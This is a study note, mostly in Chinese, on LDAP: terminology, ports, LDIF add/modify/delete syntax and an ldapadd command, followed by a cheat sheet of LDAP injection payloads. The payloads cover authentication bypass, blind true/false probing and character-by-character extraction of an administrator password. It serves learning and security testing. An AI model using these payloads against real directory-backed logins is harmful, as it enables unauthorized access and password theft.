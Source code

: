 # LDAP
## 基础知识
**概念**
lightly directory access protocol 轻量级目录访问协议，基于TCP/IP协议，通过在网络上的目录服务器上的存储和检索信息实现用户身份验证和访问控制目录查询等功能
**默认端口**
默认端口是389，使用SSL/TSL加密通信时，使用636端口
**关键字**
dc domain component 域名组成部分
例如：域名example.com     dc=example,dc=comu
uid user id 用户id
ou orgnization unit 组织单位
cn common name 公共名
sn surname 姓
dn distinguished name 一条记录的位置 “uid=a,ou=oa,dc=aa,dc=com”
rdn rlative dn 相对dn 类似相对路径
## 增删改查
### 文件格式
数据都存储在.ldif文件中
基本结构：
注释行：以井号（#）开头的行，用于添加注释信息，不会被LDAP服务器处理。

DN行：以dn:开头，后跟目录项的Distinguished Name（唯一标识符），用于指定目录项的位置。

属性行：以属性名:属性值的形式表示，用于描述目录项的属性和属性值。
```
# 添加一个新的用户
dn: cn=John Doe,ou=users,dc=example,dc=com
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: inetOrgPerson
cn: John Doe
sn: Doe
givenName: John
mail: john.doe@example.com
userPassword: {SHA}nFCebWjxfaLbHHG1Qk5UU4trbvQ=

# 修改用户密码
dn: cn=John Doe,ou=users,dc=example,dc=com
changetype: modify
replace: userPassword
userPassword: {SHA}5en6G6MezRroT3XKqkdPOmY/BfQ=

# 删除一个用户
dn: cn=John Doe,ou=users,dc=example,dc=com
changetype: delete

```

### 命令格式
```<command> [ldap server ip] [username] [passwd] [ldap file addr]```
 ldapadd 添加文件
```
ldapadd -x -H ldap://127.0.0.1:389 -b "cn=admin,dc=example,dc=com" -w admin -f demo.ldif
``` 
## 注入漏洞
### Login Bypass
LDAP supports several formats to store the password: clear, md5, smd5, sh1, sha, crypt. So, it could be that independently of what you insert inside the password, it is hashed.
```
user=*
password=*
--> (&(user=*)(password=*))
# The asterisks are great in LDAPi

user=*)(&
password=*)(&
--> (&(user=*)(&)(password=*)(&))

user=*)(|(&
pass=pwd)
--> (&(user=*)(|(&)(pass=pwd))

user=*)(|(password=*
password=test)
--> (&(user=*)(|(password=*)(password=test))
user=*))%00
pass=any
--> (&(user=*))%00 --> Nothing more is executed

user=admin)(&)
password=pwd
--> (&(user=admin)(&))(password=pwd) #Can through an error

username = admin)(!(&(|
pass = any))
--> (&(uid= admin)(!(& (|) (webpassword=any)))) —> As (|) is FALSE then the user is admin and the password check is True.

username=*
password=*)(&
--> (&(user=*)(password=*)(&))

username=admin))(|(|
password=any
--> (&(uid=admin)) (| (|) (webpassword=any))
```
### Blind LDAP Injection
You may force False or True responses to check if any data is returned and confirm a possible Blind LDAP Injection:
```
#This will result on True, so some information will be shown
Payload: *)(objectClass=*))(&objectClass=void
Final query: (&(objectClass= *)(objectClass=*))(&objectClass=void )(type=Pepi*))

#This will result on True, so no information will be returned or shown
Payload: void)(objectClass=void))(&objectClass=void
Final query: (&(objectClass= void)(objectClass=void))(&objectClass=void )(type=Pepi*))
```
#### Dump data
You can iterate over the ascii letters, digits and symbols:
```
(&(sn=administrator)(password=*))    : OK
(&(sn=administrator)(password=A*))   : KO
(&(sn=administrator)(password=B*))   : KO
...
(&(sn=administrator)(password=M*))   : OK
(&(sn=administrator)(password=MA*))  : KO
(&(sn=administrator)(password=MB*))  : KO
...
```
